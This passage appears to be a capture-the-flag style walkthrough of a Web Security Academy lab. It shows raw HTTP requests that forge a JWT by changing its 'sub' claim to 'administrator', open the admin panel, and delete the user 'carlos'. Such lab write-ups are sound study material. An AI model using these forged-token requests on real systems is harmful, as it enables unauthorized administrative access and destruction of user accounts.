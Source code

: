 ```HTTP
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aa10040046fd63880c158d700b00088.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

```
- when decode part 2 jwt (payload) 
```json
{"iss":"portswigger","exp":1738572978,"sub":"wiener"}
```
- change the sub:"administrator" and replace `wiener`
- OK, find admin panel url 
- `https://0aa10040046fd63880c158d700b00088.web-security-academy.net/admin`
```HTTP
GET /admin/ HTTP/2
Host: 0aa10040046fd63880c158d700b00088.web-security-academy.net
Cookie: session=eyJraWQiOiIwNDRmOTI2Ny0wMTI4LTRkMGMtODM5Ny1iZDU0NjY5MWQwODIiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTczODU3Mjk3OCwic3ViIjoiYWRtaW5pc3RyYXRvciJ9.LzkB4B2S_xm7f_Tz5x0AAY58oi_c75ORDL5GL2x5gVrJnbMrSXOJJ9kCN1w0teGLYLJ-Ps9YINL2hHrqNXvrFdIkWvMxYiDcVYjyUU2U4_j2Q-z4248lgbnh21RWfoygcIl-Lc4Ww-UJZFZxPgwQmyG0PccLo1ErsCKyHr8HdjV6peLQWgFsPKQUiHQc0hdgxrvnKYVOoGJK78iddeGFvOmIt4xmhcAgopkIkr83bXY1Dgv25Xkb6niphdXb0QSAfUcWAoPDKJbUYvCEFqlYtVnjl7Tg2E9dOC4d4b5ySG7S3ouftOg0lhyA0sGNTYQxlMEFa2_TzP5OJMi8_6W_dA
Content-Length: 0
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aa10040046fd63880c158d700b00088.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers


```
- server return 200 status code and in the body has admin panel
- delete carlos user 
```HTTP
GET /admin/delete?username=carlos HTTP/2
Host: 0aa10040046fd63880c158d700b00088.web-security-academy.net
Cookie: session=eyJraWQiOiIwNDRmOTI2Ny0wMTI4LTRkMGMtODM5Ny1iZDU0NjY5MWQwODIiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTczODU3Mjk3OCwic3ViIjoiYWRtaW5pc3RyYXRvciJ9.LzkB4B2S_xm7f_Tz5x0AAY58oi_c75ORDL5GL2x5gVrJnbMrSXOJJ9kCN1w0teGLYLJ-Ps9YINL2hHrqNXvrFdIkWvMxYiDcVYjyUU2U4_j2Q-z4248lgbnh21RWfoygcIl-Lc4Ww-UJZFZxPgwQmyG0PccLo1ErsCKyHr8HdjV6peLQWgFsPKQUiHQc0hdgxrvnKYVOoGJK78iddeGFvOmIt4xmhcAgopkIkr83bXY1Dgv25Xkb6niphdXb0QSAfUcWAoPDKJbUYvCEFqlYtVnjl7Tg2E9dOC4d4b5ySG7S3ouftOg0lhyA0sGNTYQxlMEFa2_TzP5OJMi8_6W_dA
Content-Length: 0
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aa10040046fd63880c158d700b00088.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
```
